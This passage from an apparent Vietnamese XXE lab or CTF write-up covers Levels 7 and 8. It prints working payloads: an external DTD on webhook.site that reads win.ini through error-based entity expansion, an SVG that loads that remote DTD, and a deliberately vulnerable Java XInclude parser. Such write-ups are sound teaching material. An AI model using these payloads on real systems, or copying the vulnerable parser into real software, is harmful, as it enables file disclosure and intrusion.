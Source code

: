 - Vector Tấn Công: Không còn là một payload XML thô nữa. Lần này, server mong đợi nhận được nội dung của một file SVG (Scalable Vector Graphics). Điều may mắn là SVG về bản chất chính là một file XML. Điều này có nghĩa là chúng ta có thể nhúng payload DTD độc hại của mình vào bên trong một file SVG hợp lệ.
- Cửa Ngõ XXE: Hàm createVulnerableBuilder() vẫn còn đó, đảm bảo rằng nếu chúng ta đưa một DTD vào, nó sẽ được xử lý.

Với suy nghĩ của tôi chắc là nên tận dụng thử payload của level 6 với level này xem liệu nó sẽ trả về gì vì đây là chức năng upload file SVG.

Đầu tiên ta vẫn sẽ tạo url trong webhook với `application/xml` với nội dung là:

```xml 
<!ENTITY % file SYSTEM "file:///C:/Windows/win.ini">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///%file;'>">
%eval;
%error;
```

Sau đó thì tạo file `payload.svg` với nội dung:

```xml 
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE svg [
    <!ENTITY % remote SYSTEM "https://webhook.site/08d61cbd-3978-4049-8c79-387217b982f1">
    %remote;
]>
<svg width="200" height="200" xmlns="http://www.w3.org/2000/svg">
    <circle cx="100" cy="100" r="80" fill="red" />
</svg>
```

Sau đó ta sẽ tiến hành upload xem nội dung nó trả về sẽ là gì.

![image](https://hackmd.io/_uploads/SJhH_1v2gg.png)

Có vẻ payload đã thành công đưa ra kết quả.

#### Level 8:

Ở level này ta sẽ tìm ra được cách tấn công mới hơn.

```java 
  public String parseLevel8(String xml) {
        try {
            DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
            // DTDs are disabled, but XInclude is enabled!
            dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
            dbf.setXIncludeAware(true); // The vulnerability!
            dbf.setNamespaceAware(true); // Required for XInclude

            DocumentBuilder dBuilder = dbf.newDocumentBuilder();
            Document doc = dBuilder.parse(new InputSource(new StringReader(xml)));
            return "XInclude Parsed: " + doc.getDocumentElement().getTextContent();
        } catch (Exception e) {
            return "Error: " + e.getMessage();
        }
    }
```
